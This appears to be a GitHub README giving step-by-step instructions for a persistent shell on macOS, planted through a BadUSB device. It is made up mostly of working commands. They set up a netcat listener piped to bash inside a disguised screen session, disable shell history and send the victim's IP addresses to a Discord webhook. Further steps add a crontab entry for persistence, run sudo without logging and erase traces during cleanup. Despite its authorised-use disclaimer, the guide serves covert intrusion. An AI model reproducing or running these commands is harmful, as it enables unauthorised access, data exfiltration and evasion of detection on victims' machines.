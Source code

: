 # **Mac Endless Reverse Shell**

### **Introduction**

This guide provides step-by-step instructions for setting up an interactive reverse shell on MacOS systems using **`nc`** (netcat). It is intended for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical. Please ensure you have proper authorization before attempting any actions described in this guide.

For additional commands and data on reverse shells, refer to the [HackTricks documentation](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#full-tty).

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

`unset HISTFILE; screen -dmS upd_check bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null) & wait $nc_pid; done'`

**Description**:

- **`screen -dmS upd_check`**: Starts a detached screen session named "upd_check" to run the following command.
- **`bash -c '...'`**: Launches a Bash shell and executes the provided command within it.
- **`unset HISTFILE`**: Prevents Bash from saving command history to a file.
- **`set +o history`**: Disables command history for the current shell session.
- **`trap "pkill -P \$\$" SIGINT SIGTERM`**: Sets up a trap to kill any child processes spawned by the command upon receiving SIGINT or SIGTERM signals (e.g., Ctrl+C).
- **`while true; do ... done`**: Creates an infinite loop to continuously execute the following commands.
- **`rm -f /tmp/f`**: Removes any existing FIFO file named "/tmp/f".
- **`mkfifo /tmp/f`**: Creates a new FIFO (named pipe) file named "/tmp/f" for communication.
- **`nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 &`**: Sets up a netcat listener on port 9123, redirecting input/output to the FIFO file, and starts a Bash shell with interactive mode (-i).
- **`nc_pid=$!`**: Stores the process ID (PID) of the netcat listener.
- **`(sleep 300 && kill -9 $nc_pid 2>/dev/null) &`**: Initiates a background process to sleep for 300 seconds (5 minutes) and then forcibly terminates the netcat listener process to trigger automatic reconnection.
- **`wait $nc_pid`**: Pauses execution until the netcat listener process terminates.

Then, send the external and internal IP addresses of the machine to a Discord channel. Replace **`YOUR_DISCORD_CHANNEL_TOKEN`** with your token inside the Ducky Script:



`external_ip=$(curl -s [ifconfig.me](http://ifconfig.me/)); internal_ips=$(ifconfig | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1' | sed 's/inet //' | paste -sd "," -); json_payload="{\"content\": \"From Endless Reverse Shell BadUSB:\\nExternal IP: $external_ip\\nInternal IP(s): $(echo $internal_ips | sed 's/,/, /g')\\n----------------------------------------\"}"; curl -X POST -H "Content-Type: application/json" -d "$json_payload" "YOUR_DISCORD_CHANNEL_TOKEN" && unset external_ip internal_ips`

Not part of the Ducky Payload. For increased persistence, set the command as a crontab job (TCC permission is needed):


`@reboot /bin/bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; (nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 || true) & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null || true) & wait $nc_pid; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash
    unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** Switch to root without command logging.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

The procedure incorporates an automatic re-establishment mechanism for the reverse shell connection every 5 minutes. This feature proves particularly valuable in scenarios where the reverse shell may be disrupted due to network instability or accidental closure of the initial connection. By utilizing a loop that periodically terminates the existing **`nc`** listener and initiates a new one, the command ensures that the attacker can regain access to the target machine without the need to redeploy the payload. This auto-reconnect functionality enhances the resilience of the reverse shell to disconnections and reinforces its persistence on the target machine, guaranteeing that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure prioritizes operational discretion and effectiveness. Ensure you possess authorized access to the system before proceeding with this setup.***